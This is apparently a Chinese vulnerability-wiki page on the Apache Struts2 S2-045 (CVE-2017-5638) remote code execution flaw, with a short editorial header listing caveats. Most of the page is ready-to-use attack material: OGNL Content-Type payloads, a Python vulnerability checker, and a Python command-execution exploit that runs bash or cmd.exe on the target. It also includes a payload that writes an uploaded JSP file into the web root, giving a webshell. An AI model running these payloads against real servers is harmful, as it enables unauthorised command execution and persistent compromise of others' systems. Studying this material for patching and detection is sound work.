





# Struts2 S2-045远程代码执行

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：受影响Jakarta错误消息路径，代码依Python2/CommonsIO；写JSP还需Web根可写和可执行
- 证据范围：算术输出检测及body写文件为同漏洞的不同操作，需标状态副作用而非只读检测。

### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 两个脚本均Python2专用但无说明，httplib/urllib2/except语法Python3不兼容
- 静态算术字符串可能偶然出现，缺HTTP状态/异常分类；无timeout
- 测试payload也清空excluded集合，会改变进程安全限制
- 文件上传PoC实际用OGNL复制HTTP body到Web根，有覆盖和持久化风险，未校验路径/恢复

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

### 影响范围

Struts 2.3.5 – Struts 2.3.31 Struts 2.5 – Struts 2.5.10

#### 漏洞验证POC

```
Content-Type:%{(#test='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(#ros.println(102*102*102*99)).(#ros.flush())}
```



#### 漏洞验证EXP

```python
import requests
import sys
import httplib
def poc(url):
    httplib.HTTPConnection._http_vsn_str='HTTP/1.0'
    payload = "%{(#test='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(#ros.println(102*102*102*99)).(#ros.flush())}"
    headers = {}
    headers["Content-Type"] = payload
    r = requests.get(url, headers=headers)
    if "105059592" in r.content:
        return True
    return False

if __name__ == '__main__':
    if len(sys.argv) == 1:
        print "python s2-045.py target"
        sys.exit()
    elif poc(sys.argv[1]):
        print "vulnerable"
    else:
        print "not vulnerable"
```



#### 命令执行POC

```
Content-Type:%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```



#### 命令执行EXP

```
#!/usr/bin/python
# -*- coding: utf-8 -*-

import urllib2
import httplib

def exploit(url, cmd):
    payload = "%{(#_='multipart/form-data')."
    payload += "(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)."
    payload += "(#_memberAccess?"
    payload += "(#_memberAccess=#dm):"
    payload += "((#container=#context['com.opensymphony.xwork2.ActionContext.container'])."
    payload += "(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))."
    payload += "(#ognlUtil.getExcludedPackageNames().clear())."
    payload += "(#ognlUtil.getExcludedClasses().clear())."
    payload += "(#context.setMemberAccess(#dm))))."
    payload += "(#cmd='%s')." % cmd
    payload += "(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win')))."
    payload += "(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd}))."
    payload += "(#p=new java.lang.ProcessBuilder(#cmds))."
    payload += "(#p.redirectErrorStream(true)).(#process=#p.start())."
    payload += "(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()))."
    payload += "(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros))."
    payload += "(#ros.flush())}"

    try:
        headers = {'User-Agent': 'Mozilla/5.0', 'Content-Type': payload}
        request = urllib2.Request(url, headers=headers)
        page = urllib2.urlopen(request).read()
    except httplib.IncompleteRead, e:
        page = e.partial

    print(page)
    return page

if __name__ == '__main__':
    import sys
    if len(sys.argv) != 3:
        print("[*] struts2_S2-045.py <url> <cmd>")
    else:
        print('[*] CVE: 2017-5638 - Apache Struts2 S2-045')
        url = sys.argv[1]
        cmd = sys.argv[2]
        print("[*] cmd: %s\n" % cmd)
        exploit(url, cmd)
```



#### GetShell POC（文件上传）

GET包修改为POST，添加参数?f=a.jsp，内容为想要上传的内容即可。

```
_multipart/form-data%{(#o=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#o):((#c=#context['com.opensymphony.xwork2.ActionContext.container']).(#g=#c.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#g.getExcludedPackageNames().clear()).(#g.getExcludedClasses().clear()).(#context.setMemberAccess(#o)))).(#req=@org.apache.struts2.ServletActionContext@getRequest()).(#f=new java.io.File(#req.getRealPath('/'),#req.getParameter('f'))).(@org.apache.commons.io.IOUtils@copy(#req.getInputStream(),new java.io.FileOutputStream(#f)))}
```




---

> 来源：白阁文库 BaizeSec/bylibrary
